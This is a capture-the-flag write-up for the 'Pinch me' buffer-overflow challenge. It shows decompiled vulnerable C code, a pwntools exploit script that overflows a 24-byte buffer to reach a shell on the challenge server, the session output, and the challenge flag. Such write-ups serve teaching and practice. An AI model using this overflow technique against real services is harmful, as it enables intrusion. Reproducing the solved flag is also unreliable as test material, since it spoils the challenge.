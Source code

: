Pinch me was the 2nd BOF challenge.

Here is the vuln() function containing the vulnerable code:

```c
void vuln(void)

{
  char local_28 [24];
  int local_10;
  int local_c;
  
  local_c = 0x1234567;
  local_10 = -0x76543211;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(local_28,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (local_c == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}
```

We note that the size of the `local_28` buffer is 24 while 100 bytes were allogated (see `fgets(local_28,100,stdin)`). If we input more than 24 bytes they will spillover into `local_10`. This is fine since we want to overwrite `local_10` with `0x1337c0de`.

The following payload will do:

```py
from pwn import *

HOST = 'dctf1-chall-pinch-me.westeurope.azurecontainer.io'
PORT = 7480

sh = remote(HOST,PORT)

sh.recv()

payload = 'A'* 24
payload += p64(0x1337c0de)

sh.sendline(payload)
sh.interactive()
```

Here is the result of running the script:

```console
root@osboxes:~/Downloads# python pinch_me.py 
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
$ whoami
pilot
$ ls
flag.txt
pinch_me
startService.sh
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}
```

The flag is **dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}**.

